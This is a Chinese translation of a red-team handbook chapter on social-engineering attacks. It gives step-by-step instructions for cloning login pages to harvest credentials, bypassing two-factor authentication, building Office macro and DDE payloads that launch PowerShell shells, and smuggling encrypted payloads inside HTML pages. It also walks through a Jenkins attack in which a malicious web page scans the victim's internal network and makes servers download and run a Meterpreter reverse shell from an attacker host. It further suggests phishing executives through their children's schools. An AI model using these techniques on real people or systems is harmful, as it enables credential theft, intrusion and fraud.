# 第5章 助攻——社会工程学攻击

> 译者：[@Snowming](https://github.com/Snowming04)


## 开始社会工程学攻击行动
作为红队队员，我们钟爱社会工程学攻击。不仅因为它通常包含低技能攻击，而且因为它也很容易以非常低的成本来策划一场值得我们高度信赖的战役。只需设置几个假域名、服务器、策划一些电子邮件、假装丢掉一些 bad USB，然后就可以结束一天的工作了。
> 译者注: 这里提到的低技能攻击， 原文是 low skillset attacks，我的理解是无需太多技能的攻击，比如踩点、垃圾收集......

在衡量的指标方面，我们一般用捕捉到的明显的信息，例如发送的电子邮件数量、点击了钓鱼链接的用户数量以及键入密码的用户数量。我们也试图发挥创意，为雇用我们的公司带来实质性价值。这方面的一个例子是 DefCon 会议举办的的社会工程学竞赛，在这个竞赛中参赛选手要通过社工的方式来入侵公司和雇员。如果你不熟悉这个竞赛的话，那我简略地介绍一下：参赛选手们需要在有限的时间内针对目标公司找到一些 flag。通过获取公司信息，如他们的 VPN 、他们使用的杀毒软件类型、员工的特定信息或让员工访问钓鱼 URL 等方法，可以捕获 flag。如果你想查看比赛中的使用的所有 flag，请查看2017年的比赛报告：http://bit.ly/2HlctvY 。 这些类型的攻击可以通过教导员工学会发现恶意行动并向相关负责团队报告从而帮助公司提高内部安全意识。

在本章中，我们将粗浅的接触一些用来进行社会工程学攻击的工具和技术。对于社会工程学攻击，没有正确或错误的答案。只要能发挥作用，在我们的书里就是好的。

### 近似域名（Doppelganger Domain）

在上本书中我们讲了很多关于近似域名的内容。如今近似域名仍然是获取初始凭证或者植入恶意软件的最成功方法之一。最常用的技术是购买一个与目标公司的URL非常相似的域名，或者是目标公司 URL 的一个常见拼写错误的域名。

在上一本书中，我们举了一个例子，如果我们的目标公司有 mail.cyberspacekittens.com 这个域名，我们将购买 mailcyberspacekittens.com 这个域名，并设置一个假的 Outlook 页面来获取登录凭证。当受害者进入假网站并输入密码时，我们会收集这些数据并将其重定向到公司的有效电子邮件服务器（mail.cyberspacekittens.com）。这给受害者留下这样的印象：他们只是第一次意外地输错了密码，因此，再次输入正确密码并登录他们的帐户。

这种方法最巧妙地一点是你甚至不用做任何网络钓鱼的操作。因为有些人就是会打错域名或者手误漏掉 “mail” 和 “cyberspacekittens” 之间的点（.），然后进入了错误的网页并输入他们的登录凭证。我们会提示让受害者把我们的恶意网站添加为书签，这样可以让受害者每天都访问我们的恶意网页。

### 如何克隆验证页面
快速克隆Web应用程序登录验证页的最佳工具之一是 TrustedSec 公司开发的社会工程学工具包（Social
Engineering Toolkit，简称 SET）。这是任何需要获取身份凭证的社工活动的标准工具包。你可以从 https://github.com/trustedsec/social-engineer-toolkit 下载这个工具包。

配置 SET:
- 将 SET 配置为使用 Apache（而不是默认的 Python ）
    - 将配置文件按照以下内容修改：
    - gedit /etc/setoolkit/set.config
        - APACHE_SERVER=ON
        - APACHE_DIRECTORY=/var/www/html
        - HARVESTER_LOG=/var/www/html
- 启动 SET:
    - cd /opt/social-engineer-toolkit
    - setoolkit
-  (1)  Spear-Phishing Attack Vectors （鱼叉式钓鱼攻击）
-  (2)  Website Attack Vectors（网站攻击）
-  (3)  Credential Harvester Attack Method  （凭证收集攻击方法）
-  (4)  Site Cloner（站点克隆器）
- 输入你的攻击服务器的 IP
- 克隆目标站点
- 打开浏览器，转到攻击服务器并测试

所有文件都会被储存在 /var/www/html 文件夹下，密码存储在 Harvester* 下。下面是社工活动中克隆页面时的一些比较好的做法：
- 搭配使用 Apache 服务器 + SSL
- 把所有图像和资源移到本地（而不是从被克隆的站点调用）
- 就我个人而言，我喜欢使用我的 PGP 公钥来存储所有记录的密码。这样，如果服务器受到入侵，就无法在没有私钥的情况下恢复密码。PHP gnupg_encrypt 和gnupg_decrypt 支持这一做法。

### 使用双因素验证的身份凭证
我们看到越来越多的客户使用双因素认证（2FA），对于红队来说双因素认证是一个巨大的麻烦，因为它们不可能被随意绕开。在以前我们必须创建一些定制化的页面，这样可以处理其中的一些情况。但现在我们有了 ReelPhish，这是 FireEye 公司制作的一个工具。当受害者在我们的钓鱼网页上输入登陆凭证时，ReelPhish 允许红队利用 Selenium 和 Chrome 来自动触发双因素验证。

[ReelPhish](https://github.com/fireeye/ReelPhish)：
- 克隆需要双因素认证的攻击目标站点。
- 使用你的攻击工具箱，解析登录到真实站点的流量。在我的例子中，我打开了 Burp Suite 来获取身份验证所需要的所有 post 参数。
- 修改克隆站点，使其使用 ReelPhish。访问 /examplesitecode/samplecode.php 并输入你的身份验证所需的所有必要参数。
- 受害者进入克隆站点并进行身份验证。
- 凭证被传输到攻击者手中。
- ReelPhish 将在真实站点进行身份验证，触发双因素验证。
- 受害者收到双因素验证的验证码或电话验证。
- 受害者被重定向到真实站点重新登录（他们会认为他们在第一次登录时登陆失败了）。

如下图所示，我们现在应该有一个经过身份验证了的会话来绕过双因素验证。虽然 ReelPuish 看起来很像是支持 Linux ，但我在 Kali 中运行它时遇到了一些问题。所以最好是在 Windows 中运行 ReelPuish。你可以在 FireEye 公司的网站上找到更多关于 ReelPhish 的信息： https://www.fireeye.com/blog/threat-research/2018/02/reelphish-real-time-two-factor-phishing-tool.html 。



还有一些其他工具可以处理不同的双因素验证绕过的情境：
 - https://github.com/kgretzky/evilginx 
 - https://github.com/ustayready/CredSniper

还有一件事，当对需要双因素认证的网络资源进行身份验证时，请确保你在得到身份凭据后要尝试使用多种不同的身份验证方法。我的意思是，一些产品可能在 Web 门户网站的身份验证页面使用了双因素验证，但在 API、旧的客户端或所有的应用程序终端上可能并没有使用双因素验证。我们已经看到许多应用程序在公共终端上要求双因素验证，但在应用程序的其他部分则缺乏相应的安全保护。

## 网络钓鱼
另一个红队已经用之取得了巨大成功的技术是传统的网络钓鱼。网络钓鱼的秘诀在于激发受害者的恐惧感或者紧迫感，有时也会向受害者描绘一些非常美好(甚至不太真实)的诱惑。我相信你以前肯定见过一些恐惧感和紧迫感确发挥巨大威力的情境。利用受害者恐惧和紧迫心理进行攻击的一些例子包括：
- 一封带有欺诈性购买的虚假电子邮件
- 有人黑进了你的电子邮件消息
- 有关税务欺诈的电子邮件

这些一般性攻击的问题是，我们已经注意到公司员工变得越来越聪明。通常，每10封基本钓鱼式攻击邮件中至少有1封会被上报。在某些情况下，比例甚至更高。这些情况对于一个红队来说是很有价值的，红队可以持续监控这些简单的网络钓鱼攻击，看看公司在对这些情况的响应方面是不是有所进步。

对于那些寻求自动化钓鱼攻击的人，我高度推荐 [Gophish](http://getgophish.com/documentation/)。Gophish 非常易于设置和维护，并且支持模板和 HTML，另外它还会跟踪和记录你所需的一切。如果你是 Ruby 的粉丝的话，[Phishing Frenzy](https://github.com/pentestgeek/phishing-frenzy)就是一个使用 Ruby 语言写的很好的工具。当然，少不了的也有用 python 语言写的工具，[King Phisher](https://github.com/securestate/king-phisher) 就是使用 Python 开发的。

这些自动化工具非常适合记录简单的网络钓鱼活动。但是对于我们的目标活动，我们得采用更加手工化的方法。例如，如果我们对受害者的邮件记录进行了一些侦察，了解到客户使用 Office365 ，那么我们就可以思考一下如何利用这个信息来策划一场具有高可行度的入侵行动。此外，我们还试图寻找该公司泄露信息的电子邮件，从中来捕捉任何其他可能有帮助的信息，包括他们可能正在运行的程序、新的特性、系统升级、代码合并等等。

我们有时还会开展更具针对性的行动。在这些行动中，我们尝试使用所有的开源工具来搜索有关人员及其财产、家庭等的信息。例如，针对一些公司高管，我们会在 pipl.com 上搜索他们，获取他们的社交媒体帐号，找出他们的孩子上学的地方。然后我们向他们发送一封欺骗性电子邮件，假装是学校发的，说他们需要打开这个 word 文档。要做完这一系列事情可能要花费很长时间，但好处在于成功率很高。


### Microsoft Word/Excel 宏文件
虽然是很老旧，但向受害者发送恶意的 Microsoft Office 文件仍然是久经考验的一种社会工程学攻击方法。那为什么 Office 文件非常适合作为恶意 payload 的载体呢？这是因为 Office 文件的默认设置是支持 VBA 代码所以允许 VBA 代码的代码执行。尽管最近这种方法已经很容易被杀毒软件检测到，但在经过混淆处理之后，在很多情况下仍然可以生效。

在最基础的水平上，我们可以使用 Empire 或 Unicorn 来创建一个 VBA 宏：
- 使用 Empire:
    - 选择 Macro Stager
        - usestager windows/macro
    - 确保进行正确的配置
        - info
    - 创建宏
        - generate
- 如果你想为 Meterpreter 创建一个 payload ，我们可以使用像 Unicorn 这样的工具:
    - cd /opt/unicorn
    - ./unicorn.py windows/meterpreter/reverse_https [your_ip] 443 macro
    - 启动一个 Metasploit Handler
        - msfconsole -r ./unicorn.rc
        
一旦生成成功，你的 payload 将如下所示：



如你所见，这是运行一个简单的 PowerShell base64 混淆脚本。这可以帮助解决绕过一些杀毒软件，但重要的是要确保在进行实时入侵操作之前对其进行测试。生成宏后，你可以快速创建一个 Excel 文档：
- 打开 Excel
- 转到视图选项卡(View Tab) - >宏 - >查看宏
- 添加一个宏名称，为 book1 配置宏，然后单击 “创建” 



- 用生成的代码替换所有当前的宏代码
- 另存为 .xls（Word 97-2003）或 Excel Macro-Enabled 格式的文件



现在，每当有人打开你的文档时，他们都会收到安全警告并看到一个启用内容的按钮。 如果你可以诱导受害者点击“启用内容”的按钮，那么你的 PowerShell 脚本将会被执行，这会弹给你一个 Empire Shell 。



如前所述，宏文件方法是一种久经考验的旧方法，因此很多受害者已经对这种攻击有了一定的认识。利用 Office 文件的另一种思路是将我们的 payload 嵌入一个批处理文件(.bat)。但在较新版本的 Office 中，如果受害者双击 Word 文档中的 .bat 文件，对象则不会被执行。我们通常不得不试图诱导受害者使其将 .bat 文件移动到桌面并执行。



我们可以用 [LuckyStrike](https://github.com/curi0usJack/luckystrike) 来以更自动化的方式完成此操作。通过使用 LuckyStrike，我们可以在工作表中使用 Payload 创建 Excel 文档，甚至可以在 Excel 文档中存储完整的可执行文件（exe），这些文件可以用 ReflectivePE 来触发从而在内存中运行。阅读更多关于 LuckyStrike 的内容：
- https://www.shellntel.com/blog/2016/9/13/luckystrike-a-database-backed-evil-macro-generator

我想提到的用于 Office 文件执行的最后一个工具是 [VBad](https://github.com/Pepitoh/VBad)。运行 VBad 时，必须在 Office 中启用宏，并在宏安全设置的下拉框中选择 “信任对 VBA 项目对象模型的访问” 选项。这会允许 VBad 运行 python 代码来更改并创建宏。

VBad 会严重混淆 MS Office 文档中的 payload。它还增加了加密功能，用假密钥来迷惑应急响应团队。最重要的是，它可以在第一次成功运行后销毁加密密钥（VBad 是一个一次性使用的恶意软件）。另一个特性是 VBad 也可以销毁对包含有效 payload 的模块的引用，以使其从 VBA 开发者工具中不可见。这使得分析和排除故障变得更加困难。因此，不仅很难去逆向，而且如果应急响应团队尝试分析执行的 Word 文档与原始文档，则所有密钥都将丢失。
 


### 非宏的 Office 文件 —— DDE 
有时候红队攻击也是一场与时间赛跑的游戏，虽然有些可以利用的易受攻击模块效果很好，但是如果时间久了，一些杀毒软件或者安全软件已经包含了检测的策略，那么也很难利用，所以有时候一些新发现的漏洞是更好利用的。在我们的一次评估中，首次公布了一个名为 DDE 的全新易受攻击模块。杀毒软件或任何安全产品还尚未检测到它，因此这是获得我们初始入口点的好方法。 虽然现在有几种安全产品可以检测 DDE ，但在某些环境中它仍然可能是一种可行的攻击。

什么是 DDE？<br>“ Windows 提供了几种在不同的应用程序之间传输数据的方法。其中一种方法就是使用动态数据交换（DDE）协议。DDE 协议是一组消息和指南。它在共享数据的应用程序之间发送消息，并使用共享内存在应用程序之间交换数据。应用程序可以使用 DDE 协议进行一次性数据传输。并且应用程序也可以利用 DDE 协议来进行持续的数据交换，当新数据可用时候，应用程序可以通过持续的数据交换来彼此发送更新。”<br>[ https://msdn.microsoft.com/en-us/library/windows/desktop/ms648774(v=vs.85).aspx ]

Sensepost 的团队做了一些很棒的研究，发现 MSExcel 和 MSWord 都暴露了 DDEExecute，并且可以在不使用宏的情况下创建代码执行。

在 Word 中：
- 转到“插入”选项卡 -> “快速部件” -> “字段”
- 选择 = 公式
- 右键单击：!Unexpected End of Formula 并选择 Toggle Field Codes
- 将 payload 替换为你的 payload：
```shell
DDEAUTO c:\windows\system32\cmd.exe “/k powershell.exe [empire payload here]”
```



Empire 有一个 stager ，可以自动创建 Word 文件和关联的 PowerShell 脚本。 此 stager 可以通过以下方式配置：

- usestager windows/macroless_msword



资源：
- https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

除了 0day 漏洞利用（例如 https://github.com/bhdresh/CVE-2017-0199 ）之外，Word 文档中是否还有其他任何能利用的特性呢？ 答案是肯定的。虽然我们不会在本书中介绍它。其中一个例子是 [subdoc attacks](https://rhinosecuritylabs.com/research/abusing-microsoft-word-features-phishing-subdoc/ )。这些攻击导致受害者向网络上的攻击服务器发出 SMB 请求，以便收集 NTLM Auth Hash（NTLM 验证哈希）。 这种攻击并不是在所有场景里百分百生效，因为大多数公司现在阻止 SMB 相关端口连接外网。对于那些还未进行此种配置的公司，我们可以使用 [subdoc_inector](http://bit.ly/2qxOuiA) 攻击来利用这种错误配置。

### 隐藏的加密 payload
作为红队队员，我们一直在寻求使用创造性的方法来构建我们的登陆页面，加密我们的 payload，并诱导用户点击运行。具有类似过程的两个不同工具是 EmbededInHTML 和 demiguise。

第一个工具 [EmbededInHTM](https://github.com/Arno0x/EmbedInHTML)，该工具的描述是“ 获取文件（任何类型的文件），加密它，并将其作为资源嵌入到 HTML 文件中，还包含模拟用户点击嵌入资源之后的自动下载进程。然后，当用户浏览 HTML 文件时，嵌入式文件即时解密，保存在临时文件夹中，然后将文件展示给用户。这一系列过程会让用户感觉该文件像是从远程站点下载来的。基于用户的浏览器和显示的文件类型，浏览器可以自动打开文件。”
- cd /op/EmbedInHTML
- python embedInHTML.py -k keypasshere -f meterpreter.xll -o index.html -w



一旦受害者访问恶意站点，弹出的窗口会提示受害者在 Excel 中打开我们的`.xll`文件。不幸的是，对于最新版本的 Excel（除非配置错误），用户需要启用加载项来执行我们的 payload 。这就需要使用你在前面学到的社会工程学技巧了。

第二个工具是 [demiguise](https://github.com/nccgroup/demiguise)，描述是“ 生成包含一个加密的 HTA 文件的 .html 文件。该工具的思路是，当你的目标访问该页面时，将获取其密钥并在浏览器中动态解密 HTA 然后将其直接推送给用户。这是一种隐匿技术，可以绕过由某些安全设备进行的的内容/文件类型的检查。但是此工具并不是为了创建优秀的 HTA 内容而设计的。在 HTA 内容方面还有其他工具/技术可以帮助你。demiguis 希望帮助用户的是:首先让你的 HTA 进入一个环境，并且（如果你使用环境键控）避免它被沙盒化。
- python demiguise.py -k hello -c “cmd.exe /c <powershell_command_here>” -p Outlook.Application -o test.hta

## 利用社会工程学攻破内网 Jenkins
作为红队队员，攻击的创造性使我们的工作非常令人兴奋。我们喜欢利用旧的漏洞利用并再次使它们焕然一新。例如，如果你一直在进行网络评估，你就会知道，如果遇到未经身份验证的 Jenkins 应用程序（开发人员大量使用它进行持续集成），这几乎意味着它完全敞开在你的面前。这是因为 Jenkins 具有允许 Groovy 脚本执行测试的 “特性”。利用这个脚本控制台，我们可以使用允许 shell 访问底层系统的执行命令。



这种方法在入侵方面变得如此受欢迎的原因是几乎每家大公司都有一些 Jenkins 实例。如果想要从外部进行攻击，就会存在一个问题：这些 Jenkins 服务都是内部托管的，无法从外部访问。

我们怎么样才能在这些服务器上远程执行代码? 在我们可以回答这个问题之前，我告诉我的团队先退后一步，用 Jenkins 构建一个副本网络进行测试。 一旦我们很好地理解了代码执行请求的功能，我们现在可以构建合适的工具来获得远程命令执行(RCE)。

面对这种情况，我们通过使用 JavaScript 和 WebRTC（Web实时通信）的一系列步骤解决了这个问题。首先，我们需要一个属于目标组织的受害者来访问一个我们拥有的公开网站或是我们存储了 XSS payload 的网页。一旦受害者访问我们的公开站点，我们将在他的浏览器上执行 JavaScript 从而运行我们的恶意 payload 。

此 payload 会利用一个 Chrome / Firefox 的 “功能” ，此功能允许 WebRTC（Web实时通信）公开受害者的内网 IP 。 通过内网 IP ，我们可以推断出受害者的计算机的本地子网，以了解其公司 IP 范围。 现在，我们可以使用我们特制的 Jenkins 漏洞利用通过 Jenkins 默认的8080端口在他们的网络范围内对每一个 IP 发起攻击（这段代码只扫描本地 /24 ，但在一个真实的红队行动中，你可能会想把扫描范围设置的比这个大很多）。

如果你玩过 Jenkins Console shell ，你就知道它有点难搞，因此能够持续获得复杂的 PowerShell payload 可能会很困难。
为了解决这个问题，我们为本书创建了一个名为 [generateJenkinsExploit.py](https://github.com/cheetz/generateJenkinsExploit) 的工具 ，该工具将获取任何二进制文件，对其进行加密，并构建进行恶意攻击的 JavaScript 页面。当受害者访问我们的恶意网页时，它将获取其内网 IP 并开始将我们的漏洞利用传播到 /24 范围内的所有服务器。当它找到易受攻击的 Jenkins 服务器时，此攻击将发送一个 Groovy 脚本的 payload 来从 internet 上抓取加密的二进制文件，将其解密为一个文件放到 C:\Users\Public\RT.exe 下，并执行 Meterpreter 二进制文件(RT.exe)。

在概念上(如下图所示)，这与服务器端请求伪造 (SSRF)非常相似，我们强制受害者的浏览器重新启动与内网 IP 的连接。
- 受害者访问我们存储的 XSS 或恶意 JavaScript 的页面。
- 受害者的浏览器执行 JavaScript/WebRTC 以获取内网 IP 并使用 Groovy POST Payload 对本地内部网络发起攻击。
- 找到一个 Jenkins 服务器后，我们的 Groovy 代码将通知 Jenkins 服务器从攻击者的服务器获取加密的 payload ，然后解密并执行二进制文件。
- 在这种情况下，我们下载的加密可执行文件是 Meterpreter payload。
- Meterpreter 在 Jenkins 服务器上执行，然后连接到我们的攻击者 Meterpreter 服务器。


 
*注意：最新版本的 Jenkins 中不存在此漏洞。 2.x 之前的版本在默认情况下是易受攻击的，因为它们未启用 CSRF 保护（允许对脚本进行无验证调用），并且未启用身份验证。*


**完整的 Jenkins 漏洞利用实验**：

- 我们将构建一个 Jenkins Windows 服务器，以便我们可以复现此攻击。
- 在本地网络上安装具有桥接接口的 Windows 虚拟机。
- 在 Windows 系统上，下载并安装 JAVA JDK8。
- 下载  Jenkins war 包:
    - http://mirrors.jenkins.io/war-stable/1.651.2/ 
- 启动 Jenkins :
    - java -jar jenkins.war 
- 浏览器打开 Jenkins:
    - http://<Jenkins_IP>:8080/
- 测试 Groovy 脚本控制台:
    - http://<Jenkins_IP>:8080/script

在 THP Kali 虚拟机上利用 Jenkins：
> 译者注:专门为本书开发的集成了所有环境的 Kali 虚拟机，本书第一章有介绍。THP 就是 The Hacker Playbook,本书的英文简称。<br>
- 下载 THP Jenkins 漏洞利用工具（ http://bit.ly/2IUG8cs ）。
- 要执行该实验，我们首先需要创建一个 Meterpreter payload：
```shell
msfvenom -p windows/meterpreter/reverse_https LHOST=<attacker_IP> LPORT=8080 -f exe > badware.exe
```
- 加密我们的 Meterpreter 二进制文件：
```shell
cd /opt/generateJenkinsExploit
python3 ./generateJenkinsExploit.py -e badware.exe
```
- 创建我们的恶意 JavaScript 页面命名为`badware.html`：
```shell
python3 ./generateJenkinsExploit.py -p http://<attacker_IP>/badware.exe.encrypted > badware.html
```
- 将加密的二进制和恶意 JavaScript 页面都移动到 Web 目录:
```shell
mv badware.html /var/www/html/
mv badware.exe.encrypted /var/www/html/
```



现在，在完全不同的系统上，你可以使用 Chrome 或 Firefox 浏览器访问你的攻击者网页：http://<attacker_IP>/badware.html 。只需访问该恶意页面，你的浏览器就会通过我们的 Groovy payload，使用 JavaScript 和 POST 请求对你的内部 /24 网络经由8080端口进行攻击。当它找到一个 Jenkins 服务器时，它将导致该服务器下载我们的加密 Meterpreter ，解密并执行它。在公司网络中，你最终可能会得到大量不同的 shell 。



任何允许通过 GET 或 POST HTTP 方法进行未经身份验证的代码执行的场景都可以使用此种攻击手法。对于此类攻击，你需要确定受害者在内部使用哪些应用程序并制定你的恶意攻击。


## 本章总结
社会工程学攻击是一种类似于猫捉老鼠的游戏。这种攻击在很大程度上依赖于人的因素，并瞄准人性中恐惧、紧迫和易于轻信等弱点。通过利用这些人性的漏洞，我们可以创建非常巧妙的入侵行动，这些入侵行动在系统攻击方面具有很高的成功率。

在衡量标准和目标方面，我们需要从消极等待用户、报告钓鱼网页/钓鱼电子邮件等的相关数据这样的反应模型中跳脱出来，转而采用主动模式。我们可以积极狩猎、主动发起包括但不限于以上介绍的这些类型的恶意社工攻击。
